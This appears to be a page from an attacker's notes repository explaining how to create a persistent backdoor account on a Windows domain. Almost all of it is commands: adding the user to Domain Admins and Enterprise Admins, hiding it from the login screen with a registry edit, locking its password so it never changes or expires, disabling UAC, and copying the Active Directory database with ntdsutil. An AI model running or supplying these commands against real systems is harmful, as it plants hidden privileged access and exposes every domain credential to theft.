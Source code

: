 # Create User

Normally you wouldn't create an account since it is intrusive but hackers had to avoid writing malware on disk as much as possible. Make your decisions wisely.

## 01 - Command Prompt

- Method 1

```
C:\> net user sysadmin s3cur3d+1T /add /y

C:\> net group "Domain Admins" sysadmin /add /domain

C:\> net group "Enterprise Admins" sysadmin /add /domain

C:\> net user sysadmin /domain /expires:never /y
```

- Method 2

`C:\> dsadd user "cn=<username>,cn=Users,dc=<domain_name>,dc=<tdl>" -pwd <password>`

Makes the user account invisible from the Windows Login screen

`C:\> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\Userlist" /v sysadmin /t REG_DWORD /d 0 /f`

Sometimes it's a bit annoying when losing access that somebody changed the password whatever if it's on purpose or accidental. This `/passwordchg:<YES | NO>` option will prevent it from happening.

`C:\> net user sysadmin /passwordchg:no`

Never expire the password (this command is intrusive so be careful)

`C:\> net accounts /maxpwage:unlimited`

Install From Media (IFM)

```
C:\> ntdsutil.exe "activate instance ntds" "ifm" "create full c:\temp" quit quit

C:\> ntdsutil.exe "ac in ntds" "ifm" "cr fu c:\temp" q q
```

Disabling UAC that allows the hacker to take full control

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f`

Enabling UAC to make the admin restrictive

`C:\> reg.exe add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 1 /f`

## 02 - Powershell

TODO: Create user account in the domain controller

`PS C:\> New-LocalUser -Name sysadmin -NoPassword`